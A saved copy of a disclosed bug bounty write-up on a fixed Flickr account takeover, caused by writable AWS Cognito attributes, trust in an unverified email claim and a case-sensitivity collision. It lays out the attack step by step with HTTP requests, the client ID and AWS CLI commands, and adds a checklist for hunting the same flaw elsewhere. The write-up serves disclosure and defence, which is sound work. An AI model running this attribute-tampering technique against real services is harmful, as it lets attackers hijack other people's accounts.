

---
title: "Flickr Account Takeover - AWS Cognito OIDC Misconfiguration"
author: Lauritz Holtmann
source: (Web-)Insecurity Blog
published: 2021-12-18
updated: 2021-12-18
read_time: 8 min
tags:
  - bugbounty
  - flickr
  - aws
  - cognito
  - oidc
  - openid-connect
  - account-takeover
  - auth-bypass
  - broken-authentication
  - user-pool
  - writeup
severity: Critical
status: Fixed
disclosed: 2021-12-18
hackerone: https://hackerone.com/reports/1342088
platforms:
  - identity.flickr.com
  - www.flickr.com
  - cognito-idp.us-east-1.amazonaws.com
---

# Flickr Account Takeover - AWS Cognito OIDC Misconfiguration

> By exploiting Cognito misconfiguration + OIDC violations, it was possible to takeover any Flickr account without user interaction. One `update-user-attributes` call was all it took.

| Field | Details |
|-------|---------|
| **Author** | Lauritz Holtmann |
| **Source** | (Web-)Insecurity Blog |
| **Published** | December 18, 2021 — 8 min read / 1685 words |
| **Severity** | 🔴 Critical — Full account takeover, zero user interaction |
| **Affected Flow** | `identity.flickr.com` → `cognito-idp.us-east-1.amazonaws.com` → `www.flickr.com` |
| **Root Cause** | Trusted unverified `email` claim instead of `sub` + case-sensitive collision + writable user attributes |
| **Timeline** | Reported Sep 17, 2021 → Prelim fix Sep 18, 2021 → Disclosed Dec 18, 2021 |
| **Bounty** | ✅ Max bounty awarded, exemplary triage |

---

## 📑 Contents

- [TL;DR](#tldr)
- [Flickr Login Flow](#flickr-login-flow)
- [Amazon Cognito Basics](#amazon-cognito-basics)
- [Puzzle Piece 1: Read and Write User Attributes via API](#puzzle-piece-1-read-and-write-user-attributes-via-api)
- [OpenID Connect: Using an Unintended Claim for Authentication](#openid-connect-using-an-unintended-claim-for-authentication)
- [Making Wrong Assumptions: Case-Sensitivity Collision](#making-wrong-assumptions-case-sensitivity-collision)
- [Assembling the Puzzle: Account Takeover](#assembling-the-puzzle-account-takeover)
  - [Prerequisites](#prerequisites)
  - [Step 1 - Get Attacker access_token](#step-1---get-attacker-access_token)
  - [Step 2 - Overwrite email with Victim Look-alike](#step-2---overwrite-email-with-victim-look-alike)
  - [Step 3 - Login as Victim](#step-3---login-as-victim)
- [Attack Flow Diagram](#attack-flow-diagram)
- [Hints for Developers](#hints-for-developers)
- [Hints for Security Researchers](#hints-for-security-researchers)
- [Responsible Disclosure Timeline](#responsible-disclosure-timeline)
- [🧠 Key Takeaways](#-key-takeaways)

---

> [!DANGER] TL;DR
> Flickr login was implemented with **AWS Cognito User Pools** (`USER_PASSWORD_AUTH`, `ClientId: 3ck15a1ov4f0d3o97vs3tbjb52`). The `access_token` was overly scoped — any user could `get-user` and `update-user-attributes` (including `email`) via AWS CLI. Flickr then authenticated users by **unverified, case-insensitive `email` claim** instead of the immutable `sub` claim, ignoring `email_verified=false`. Attack: set your email to `Victim@flickr.com` (capital V), login as `victim@flickr.com` with your password → logged in as victim.

---

## Flickr Login Flow

Flickr uses **Amazon Cognito** to implement login at `identity.flickr.com`.

High-level flow:



> [!NOTE] Key Observation
> The entire auth happens in JavaScript against Cognito directly. Tokens are then forwarded to `www.flickr.com` which must map Cognito identity → Flickr account. That mapping is where it broke.

---

## Amazon Cognito Basics

Cognito implements a slightly modified variant of **OpenID Connect**. Auth request:

```http
POST / HTTP/2
Host: cognito-idp.us-east-1.amazonaws.com

{
    "AuthFlow": "USER_PASSWORD_AUTH",
    "ClientId": "3ck15a1ov4f0d3o97vs3tbjb52",
    "AuthParameters": {
        "USERNAME": "attacker@flickr.com",
        "PASSWORD": "[REDACTED]",
        "DEVICE_KEY": "us-east-1_070[...]"
    },
    "ClientMetadata": {}
}
```

Success response:

```json
{
    "AuthenticationResult": {
        "AccessToken": "[REDACTED]",
        "ExpiresIn": 3600,
        "IdToken": "[REDACTED]",
        "RefreshToken": "[REDACTED]",
        "TokenType": "Bearer"
    },
    "ChallengeParameters": {}
}
```

> [!INFO] Why access_token Matters Here
> This `AccessToken` is not just an OIDC artifact — it's a live AWS API credential. You can feed it directly to `aws cognito-idp` CLI. That was puzzle piece #1.

---

## Puzzle Piece 1: Read and Write User Attributes via API

### Read — `get-user`

Only requires `access_token`:

```bash
aws cognito-idp get-user --region us-east-1 --access-token eyJraWQiOiJPVj[...]
```

```json
{
    "Username": "e28[...]",
    "UserAttributes": [
        { "Name": "sub", "Value": "e28[...]" },
        { "Name": "birthdate", "Value": "1998-09-17" },
        { "Name": "email_verified", "Value": "true" },
        { "Name": "locale", "Value": "en-us" },
        { "Name": "given_name", "Value": "Peter" },
        { "Name": "family_name", "Value": "Pentest" },
        { "Name": "email", "Value": "xyz@flickr.com" }
    ]
}
```

Works. Token is valid against AWS API.

### Write — `update-user-attributes`

```bash
aws cognito-idp update-user-attributes --region us-east-1 --access-token eyJraWQi[...] --user-attributes 'Name=birthdate,Value=><s>0'
```

Verify:

```bash
aws cognito-idp get-user --region us-east-1 --access-token eyJraWQi[...]
```

```json
{
    "Username": "e28[...]",
    "UserAttributes": [
        { "Name": "sub", "Value": "e28[...]" },
        { "Name": "birthdate", "Value": "><s>0" }
    ]
}
```

> [!WARNING] Misconfiguration #1 — Overly Permissive Attribute Scope
> Flickr allowed users to read **and write** user-pool attributes via public AWS API. No restriction on writable attributes. There was no reason for `birthdate`, `email`, etc. to be user-writable from the login client.

So far: Flickr exposed full Cognito User Pool read/write to any authenticated user. 🧐

---

## OpenID Connect: Using an Unintended Claim for Authentication

Now fiddle with `email`:

```bash
aws cognito-idp update-user-attributes --region us-east-1 --access-token eyJraWQ[...] --user-attributes Name=email,Value=imaginary@flickr.com
```

```json
{
    "CodeDeliveryDetailsList": [
        {
            "Destination": "i***@f***.com",
            "DeliveryMedium": "EMAIL",
            "AttributeName": "email"
        }
    ]
}
```

```bash
aws cognito-idp get-user --region us-east-1 --access-token eyJraWQi[...]
```

```json
{
    "Username": "e28c34[...]",
    "UserAttributes": [
        { "Name": "email_verified", "Value": "false" },
        { "Name": "email", "Value": "imaginary@flickr.com" }
    ]
}
```

Observations:

- [x] `email` is writable
- [x] Only side-effect: `email_verified` flips to `false` until code verification
- [x] No block on unverified email — change applies immediately

> [!CAUTION] Broken Login After Change
> At this point, trying to login normally broke the flow — Flickr redirected to a page saying *there was no linked account for the given e-mail address*. Conclusion: Flickr used the **`email` claim for authentication**, and **completely ignored `email_verified`**. 😯

### What OIDC Spec Actually Says

From **OpenID Connect Core 1.0** on `sub`:

> `sub` — REQUIRED. Subject Identifier. A locally unique and never reassigned identifier within the Issuer for the End-User, which is intended to be consumed by the Client, e.g., `24400320` or `AItOawmwtWwcT0k51BayewNvutrJUqsvl6qs7A4`. It MUST NOT exceed 255 ASCII characters in length. The sub value is a case sensitive string.

Takeaway: Authorization Server guarantees `sub` is stable + unique + trustworthy for account mapping. **No such guarantee exists for `email`.**

> [!DANGER] Misconfiguration #2 — Wrong Claim Trusted
> Flickr trusted `email` (user-controlled, unverified, mutable) instead of `sub` (immutable, issuer-assigned). Classic OIDC violation. AWS `email` is even case-sensitive, unlike most login normalizations.

---

## Making Wrong Assumptions: Case-Sensitivity Collision

Flickr normalizes entered e-mails at `identity.flickr.com`:

- JS lowercases input before sending to backend
- Server-side same normalization before interpreting `email` claim

So Flickr assumed: **no collisions** like `Lauritz.Holtmann@example.com` vs `lauritz.holtmann@example.com`.

But via direct AWS CLI tampering, we bypass normalization entirely. 😳

> [!WARNING] Misconfiguration #3 — Normalization Mismatch
> Frontend/backend lowercase `victim@flickr.com`, but Cognito stores `Victim@flickr.com` as distinct value. Lowercased comparison on login → collision → attacker account matches victim lookup.

| Layer | Value Stored / Compared |
|-------|-------------------------|
| Cognito `email` (attacker) | `Victim@flickr.com` (case-sensitive, `email_verified=false`) |
| Flickr login lookup (lowercased) | `victim@flickr.com` → matches victim's Flickr account |
| OIDC `sub` (correct key) | `e28c34[...]` (attacker) ≠ victim sub — but never checked |

---

## Assembling the Puzzle: Account Takeover

### Prerequisites

- `victim@flickr.com` — target account (email only needs to be known/guessable)
- `attacker@flickr.com` — arbitrary attacker-controlled account

No user interaction. No phishing. No verification code needed.

### Step 1 - Get Attacker access_token

Intercept login from `https://identity.flickr.com/`:

```http
POST / HTTP/2
Host: cognito-idp.us-east-1.amazonaws.com

{
    "AuthFlow": "USER_PASSWORD_AUTH",
    "ClientId": "3ck15a1ov4f0d3o97vs3tbjb52",
    "AuthParameters": {
        "USERNAME": "attacker@flickr.com",
        "PASSWORD": "[REDACTED]",
        "DEVICE_KEY": "us-east-1_070[...]"
    },
    "ClientMetadata": {}
}
```

Response contains usable tokens:

```json
{
    "AuthenticationResult": {
        "AccessToken": "[REDACTED]",
        "ExpiresIn": 3600,
        "IdToken": "[REDACTED]",
        "RefreshToken": "[REDACTED]",
        "TokenType": "Bearer"
    },
    "ChallengeParameters": {}
}
```

Confirm:

```bash
aws cognito-idp get-user --region us-east-1 --access-token eyJraWQiOiJPVj[...]
```

```json
{
    "Username": "e2[...]",
    "UserAttributes": [
        { "Name": "sub", "Value": "e28[...]" },
        { "Name": "birthdate", "Value": "1998-09-17" },
        { "Name": "email_verified", "Value": "true" },
        { "Name": "locale", "Value": "en-us" },
        { "Name": "given_name", "Value": "Peter" },
        { "Name": "family_name", "Value": "Pentest" },
        { "Name": "email", "Value": "attacker@flickr.com" }
    ]
}
```

### Step 2 - Overwrite email with Victim Look-alike

Note case-sensitive trick — capital `V`:

```bash
aws cognito-idp update-user-attributes --region us-east-1 --access-token eyJraWQ[...] --user-attributes Name=email,Value=Victim@flickr.com
```

```json
{
    "CodeDeliveryDetailsList": [
        {
            "Destination": "V***@flickr.com",
            "DeliveryMedium": "EMAIL",
            "AttributeName": "email"
        }
    ]
}
```

Verify — `email_verified` is now `false`, but Flickr doesn't care:

```bash
aws cognito-idp get-user --region us-east-1 --access-token eyJraWQi[...]
```

```json
{
    "Username": "e28c34[...]",
    "UserAttributes": [
        { "Name": "sub", "Value": "e2[...]" },
        { "Name": "birthdate", "Value": "1998-09-17" },
        { "Name": "email_verified", "Value": "false" },
        { "Name": "locale", "Value": "en-us" },
        { "Name": "given_name", "Value": "Peter" },
        { "Name": "family_name", "Value": "Pentest" },
        { "Name": "email", "Value": "Victim@flickr.com" }
    ]
}
```

### Step 3 - Login as Victim

Login via `identity.flickr.com` using **look-alike email + attacker password**:

- Username: `Victim@flickr.com` (or `victim@flickr.com` — normalized to lower)
- Password: attacker's password

Flickr lowercases → looks up `victim@flickr.com` → finds victim's Flickr account → issues victim session to attacker.

> [!DANGER] Full Takeover, Zero Interaction
> Video PoC in original post shows end-to-end: create attacker account → `update-user-attributes` → login → victim account. No email verification, no victim click.

---

## Attack Flow Diagram

```mermaid
flowchart LR
    A[Attacker account<br/>attacker@flickr.com] -->|USER_PASSWORD_AUTH| B[Cognito: AccessToken]
    B -->|update-user-attributes<br/>email=Victim@flickr.com| C[Cognito stores unverified look-alike<br/>email_verified=false]
    C -->|Login with Victim@flickr.com + attacker PW| D[identity.flickr.com lowercases]
    D -->|Lookup victim@flickr.com| E[www.flickr.com issues victim session]
```

Affected chain:

- `identity.flickr.com` (normalization)
- `cognito-idp.us-east-1.amazonaws.com` (writable attributes)
- `www.flickr.com` (trusts `email` not `sub`)

---

## Hints for Developers

If you use Amazon Cognito or similar OAuth / OIDC IdPs:

1. **Do not rely on other claims than `sub`.** Only `sub` is guaranteed stable + unique + issuer-controlled.
2. **Restrict writable attributes.** Evaluate if users really need to fiddle with user attributes via AWS API. If not, protect all other attributes. Use `AllowedOAuthFlows`, scoped-down app client, custom attributes with read/write permissions, pre-sign-up / pre-token triggers to enforce allowlists.
3. **Check `email_verified`.** Cognito `email` may hold an unverified address. Verification status is in `email_verified` — never ignore it. Better: deny login / mapping on `false`.
4. **Normalize consistently, enforce uniqueness case-insensitively.** If you lowercase on login, you must enforce case-insensitive uniqueness at write time (Cognito does not by default).
5. **Don't expose raw Cognito tokens to downstream mapping without validation.** Validate `IdToken` signature (`kid`, `iss`, `aud` = ClientId), expiry, `token_use=id`, and bind Flickr account ID to `sub` on first link.

> [!NOTE] On AWS Docs
> Original author notes (with humor) that Cognito docs — especially German translation — are hard to read, which contributes to misconfigurations. Prefer English original + test effective permissions with CLI as attacker would. 🙊

---

## Hints for Security Researchers

Authentication with multiple entities (RP ↔ IdP ↔ AWS API) is error-prone.

Checklist when you see Cognito / Auth0 / Firebase / OIDC:

- [ ] Can you call `get-user` / `update-user-attributes` with your own `access_token`? What attributes are writable?
- [ ] Which claim does the RP use for account linking? `sub` vs `email` vs `preferred_username` vs `cognito:username`?
- [ ] Is `email_verified` enforced? Try unverified email swap → login.
- [ ] Case-sensitivity / Unicode normalization / `+` alias / dot-trick collisions? (`Victim@` vs `victim@`, `vıctim@`, `victim+evil@`)
- [ ] Look at high-level flow, not just primitives — bugs live where products interact and make wrong assumptions about each other.

---

## Responsible Disclosure Timeline

| Date | Actor | Event |
|------|-------|-------|
| Sep 17, 2021 | [LH] | Initial report via HackerOne: https://hackerone.com/reports/1342088 |
| Sep 17, 2021 | [FLICKR] | Staff asks for PoC clarification |
| Sep 17, 2021 | [FLICKR] | Report triaged, **max bounty awarded** |
| Sep 18, 2021 | [FLICKR] | Preliminary fix applied to mitigate immediate risk |
| Dec 18, 2021 | [FLICKR] | HackerOne report disclosed |
| Dec 18, 2021 | [LH] | This post published |

> The Responsible Disclosure process was exemplary, kudos to Flickr's Application Security team! 🙂

---

## 🧠 Key Takeaways

1. **Wrong claim = account takeover:** Trusting mutable `email` instead of immutable `sub` breaks OIDC security model
2. **Never ignore `email_verified`:** Unverified email must never drive auth decisions
3. **Cognito tokens are AWS credentials:** `access_token` → test `get-user` / `update-user-attributes` scope immediately
4. **Least privilege on attributes:** If users don't need to write attributes, block it at User Pool app-client level
5. **Normalization must match enforcement:** Lowercasing on login + case-sensitive store = collision primitive (`Victim@` vs `victim@`)
6. **Pattern to hunt:** JS login → `cognito-idp.*.amazonaws.com` + `ClientId` in JS → CLI attribute tampering → check RP mapping claim

---

## 🔗 Related

- [[OIDC - sub vs email Confusion]]
- [[AWS Cognito Misconfiguration]]
- [[Account Takeover via Unverified Email]]
- [[Case Sensitivity Collision]]
- [[Real-life OIDC Security Series]]
- [[TikTok Careers Portal Account Takeover]]

*Saved for later reading in Obsidian. Original research by Lauritz Holtmann — (Web-)Insecurity Blog.*
